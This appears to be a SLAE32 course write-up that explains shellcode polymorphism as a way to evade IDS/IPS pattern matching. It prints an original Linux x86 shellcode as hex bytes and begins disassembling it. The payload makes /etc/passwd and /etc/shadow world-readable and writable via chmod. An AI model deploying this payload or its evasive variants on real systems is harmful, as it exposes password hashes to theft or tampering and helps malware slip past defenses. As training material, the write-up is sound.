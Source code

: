 - [original_shellcode.nasm](https://github.com/rbctee/SlaeExam/blob/main/slae32/assignment/6/part/1/original_shellcode.nasm), contains the original shellcode of which I wrote a polymorphic version
- [polymorphic_stable.nasm](https://github.com/rbctee/SlaeExam/blob/main/slae32/assignment/6/part/1/polymorphic_stable.nasm), contains the polymorphic version of the shellcode, but with a few more checks in order to avoid segmentation faults
- [polymorphic_tiny.nasm](https://github.com/rbctee/SlaeExam/blob/main/slae32/assignment/6/part/1/polymorphic_tiny.nasm)

## Definitions

> What is **Polymorphism**?

Polymorphism refers to the ability of something (e.g. shellcode, malwares) to mutate, while keeping intact the original code. For example, to clear a register you can use the following instruction:

```nasm
xor eax, eax
```

However, there are many more possibilities, like these:

```nasm
; mov-xor
mov EAX, 0xffffffff
xor EAX, 0xffffffff

; push-dec-pop
push 0x1
pop EAX
dec EAX

; mov-sub
mov EAX, 0xaabbccdd
sub EAX, 0xaabbccdd
```

In the case of shellcodes and malwares, the objective is to hide their presence from Security Protections that use **Pattern Matching**, such as `IDS` and `IPS` systems.

## Analysis

First, here's the original shellcode in **Intel syntax**, since the shellcode on the original page uses **AT&T syntax**.

```bash
echo -n "\x31\xc0\x66\xb9\xb6\x01\x50\x68\x73\x73\x77\x64\x68\x2f\x2f\x70\x61\x68\x2f\x65\x74\x63\x89\xe3\xb0\x0f\xcd\x80\x31\xc0\x50\x68\x61\x64\x6f\x77\x68\x2f\x2f\x73\x68\x68\x2f\x65\x74\x63\x89\xe3\xb0\x0f\xcd\x80\x31\xc0\x40\xcd\x80" > shellcode.bin

ndisasm -b 32 -p intel shellcode.bin
```

```nasm
                            ; EAX 0
00000000  31C0              xor eax,eax

                            ; ECX = 110110110
                            ; u=rw, g=rw, o=rw
00000002  66B9B601          mov cx,0x1b6

                            ; "/etc//passwd"
00000006  50                push eax
00000007  6873737764        push dword 0x64777373
0000000C  682F2F7061        push dword 0x61702f2f
00000011  682F657463        push dword 0x6374652f

                            ; EBX = pointer to "/etc//passwd"
00000016  89E3              mov ebx,esp
```